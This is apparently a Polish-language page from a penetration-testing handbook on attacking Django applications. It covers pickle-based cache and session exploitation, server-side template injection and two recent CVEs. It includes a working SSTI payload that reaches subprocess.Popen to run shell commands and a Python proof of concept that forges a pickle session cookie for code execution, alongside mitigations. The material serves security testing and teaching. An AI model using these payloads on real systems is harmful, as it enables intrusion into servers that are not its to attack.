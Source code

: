# Django

{{#include ../../banners/hacktricks-training.md}}

## Manipulacja pamięcią podręczną do RCE
Domyślną metodą przechowywania pamięci podręcznej w Django są [Python pickles](https://docs.python.org/3/library/pickle.html), co może prowadzić do RCE, jeśli [niezaufane dane wejściowe są odpakowywane](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Jeśli atakujący uzyska dostęp do zapisu w pamięci podręcznej, może eskalować tę podatność do RCE na serwerze bazowym**.

Pamięć podręczna Django jest przechowywana w jednym z czterech miejsc: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [pamięci](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [plikach](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) lub w [bazie danych](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Pamięć podręczna przechowywana na serwerze Redis lub w bazie danych jest najbardziej prawdopodobnym wektorem ataku (iniekcja Redis i iniekcja SQL), ale atakujący może również wykorzystać pamięć podręczną opartą na plikach, aby przekształcić dowolny zapis w RCE. Utrzymujący oznaczyli to jako problem, który nie wymaga uwagi. Ważne jest, aby zauważyć, że folder plików pamięci podręcznej, nazwa tabeli SQL i szczegóły serwera Redis będą się różnić w zależności od implementacji.

Ten raport HackerOne dostarcza świetny, powtarzalny przykład wykorzystania pamięci podręcznej Django przechowywanej w bazie danych SQLite: https://hackerone.com/reports/1415436

---

## Wstrzykiwanie szablonów po stronie serwera (SSTI)
Język szablonów Django (DTL) jest **kompletny w sensie Turinga**. Jeśli dane dostarczone przez użytkownika są renderowane jako *ciąg szablonu* (na przykład przez wywołanie `Template(user_input).render()` lub gdy `|safe`/`format_html()` usuwa automatyczne eskapowanie), atakujący może osiągnąć pełne SSTI → RCE.

### Wykrywanie
1. Szukaj dynamicznych wywołań do `Template()` / `Engine.from_string()` / `render_to_string()`, które zawierają *jakiekolwiek* niesanitizowane dane żądania.
2. Wyślij ładunek oparty na czasie lub arytmetyce:
```django
{{7*7}}
```
Jeśli renderowany wynik zawiera `49`, dane wejściowe są kompilowane przez silnik szablonów.

### Primitwa do RCE
Django blokuje bezpośredni dostęp do `__import__`, ale graf obiektów Pythona jest osiągalny:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Znajdź indeks `subprocess.Popen` (≈400–500 w zależności od wersji Pythona) i wykonaj dowolne polecenia:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Bezpieczniejszym uniwersalnym gadżetem jest iteracja, aż `cls.__name__ == 'Popen'`.

Ten sam gadżet działa dla funkcji renderowania **Debug Toolbar** lub **Django-CMS**, które niewłaściwie obsługują dane wejściowe użytkownika.

---

## RCE z wykorzystaniem ciasteczka sesyjnego opartego na Pickle
Jeśli ustawienie `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` jest włączone (lub niestandardowy serializer, który deserializuje pickle), Django *deszyfruje i unpickluje* ciasteczko sesyjne **przed** wywołaniem jakiegokolwiek kodu widoku. Dlatego posiadanie ważnego klucza podpisu (domyślnie `SECRET_KEY` projektu) wystarcza do natychmiastowego zdalnego wykonania kodu.

### Wymagania dotyczące eksploatacji
* Serwer używa `PickleSerializer`.
* Atakujący zna / może zgadnąć `settings.SECRET_KEY` (wycieki przez GitHub, `.env`, strony błędów itp.).

### Dowód koncepcji
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Wyślij wynikowe ciasteczko, a ładunek działa z uprawnieniami pracownika WSGI.

**Mitigacje**: Utrzymuj domyślny `JSONSerializer`, rotuj `SECRET_KEY` i skonfiguruj `SESSION_COOKIE_HTTPONLY`.

---

## Ostatnie (2023-2025) Wysokiego Wpływu CVE Django, które powinni sprawdzić pentesterzy
* **CVE-2025-48432** – *Wstrzykiwanie logów przez nieucieczone `request.path`* (naprawione 4 czerwca 2025). Pozwala atakującym na przemycanie nowych linii/kodów ANSI do plików logów i zanieczyszczanie analizy logów w dół. Poziom łaty ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Krytyczne wstrzykiwanie SQL* w `QuerySet.values()/values_list()` na `JSONField` (CVSS 9.8). Twórz klucze JSON, aby wydostać się z cytatów i wykonywać dowolne SQL. Naprawione w 4.2.15 / 5.0.8.

Zawsze identyfikuj dokładną wersję frameworka za pomocą strony błędu `X-Frame-Options` lub hasha `/static/admin/css/base.css` i testuj powyższe tam, gdzie to możliwe.

---

## Odniesienia
* Wydanie zabezpieczeń Django – "Django 5.2.2, 5.1.10, 4.2.22 adresuje CVE-2025-48432" – 4 czerwca 2025.
* OP-Innovate: "Django wydaje aktualizacje zabezpieczeń w celu rozwiązania problemu z wstrzykiwaniem SQL CVE-2024-42005" – 11 sierpnia 2024.

{{#include ../../banners/hacktricks-training.md}}
